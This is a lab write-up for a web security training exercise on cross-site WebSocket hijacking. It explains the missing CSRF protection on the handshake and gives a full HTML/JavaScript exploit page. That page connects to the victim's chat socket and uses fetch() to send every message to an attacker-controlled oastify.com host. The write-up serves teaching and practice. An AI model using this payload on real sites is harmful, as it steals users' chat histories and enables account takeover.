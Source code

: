 # Cross-site WebSocket hijacking
# Objective
This online shop has a live chat feature implemented using WebSockets.\
To solve the lab, use the exploit server to host an `HTML/JavaScript` payload that uses a cross-site WebSocket hijacking attack to exfiltrate the victim's chat history, then use this gain access to their account. 

# Solution
## Analysis
On the website there is a live chat feature implemented using WebSockets.\
There is no CSRF protection in websocket handshake request.\
Every time user establishes websocket connection data from all previous interaction with chat is sent over websocket.

|![](Images/image-10.png)|
|:--:| 
| *WebSocket handshake* |

## Exploitation
Attacker can steal data send via websocket by using configuration below - user opens website, websocket connection is established automattically (no CSRF protections), every websocket responnse from server is sent to attacker domain.

Exploit server configuration:
```html
<!DOCTYPE html>
<html>
  <head>
    <title>WS</title>
  </head>
  <body>
    <script>
      var ws = new WebSocket('wss://0a250050034f5c9680c526690020000f.web-security-academy.net/chat');
      ws.onopen = function() {
        ws.send("READY");
      };
      ws.onmessage = function(event) {
        fetch('https://<id>.oastify.com', {
          method: 'POST',
          mode: 'no-cors',
          body: event.data
        });
      };
    </script>
  </body>
</html>
```

|![](Images/image-12.png)|
|:--:| 
| *Exploit server conniguration* |
|![](Images/image-11.png)|
| *Cross-site webSocket hijacking* |
